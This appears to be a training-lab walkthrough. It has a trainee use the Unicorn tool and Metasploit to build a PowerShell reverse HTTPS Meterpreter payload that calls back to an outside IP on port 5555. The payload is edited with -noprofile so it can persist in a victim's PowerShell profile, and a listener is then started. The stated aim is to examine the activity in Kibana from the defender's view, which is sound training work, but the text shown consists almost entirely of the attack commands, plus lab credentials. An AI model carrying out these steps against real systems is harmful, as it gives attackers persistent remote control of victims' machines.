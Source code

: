 Add persistent functionality to the user’s PowerShell profile with the PowerShell persistence creation tool Unicorn. Then, examine machine logs in Kibana to view the defender’s perspective of this malicious activity. 

﻿

Workflow
﻿

1. Log in to the VM kali-hunt with the following credentials:

Username: trainee
Password: CyberTraining1!
﻿

2. Open a terminal window.

﻿

3. Change directories to the Unicorn directory by entering the following code:

(trainee@dmss-kali)-[~]$cd /home/trainee/unicorn
﻿

4. Generate the Metasploit setup script and PowerShell shellcode that creates a persistent reverse HTTPS shell by entering the following command:

(trainee@dmss-kali)-[~/unicorn]$ ./unicorn.py windows/meterpreter/reverse_https 199.63.64.51 5555
﻿

The command from this step creates the files powershell_attack.txt and unicorn.rc, as displayed in Figure 12.1-1, below:



If the attack command in powershell_attack.txt is placed in the PowerShell profile in its current state, it will create an unacceptable loop. To resolve this, the flag -noprofile must be manually added to the code. 


5. Ensure that child PowerShell processes run without the profile enabled by running the following command:
(trainee@dmss-kali)-[~/unicorn]$ sed -z -i 's/\n/\r\n/g;s/powershell/powershell -noprofile/g' powershell_attack.txt



6. Display the commands to add to the PowerShell profile by printing the contents of the file powershell_attack.txt.


This file will be downloaded to the victim device.


7. Start a listener with the following command:
(trainee@dmss-kali)-[~/unicorn]$ sudo msfconsole -r unicorn.rc
[sudo] password for trainee: CyberTraining1!

![image](https://github.com/user-attachments/assets/27ef2357-7251-4f4b-962c-0cb7d31499c4)



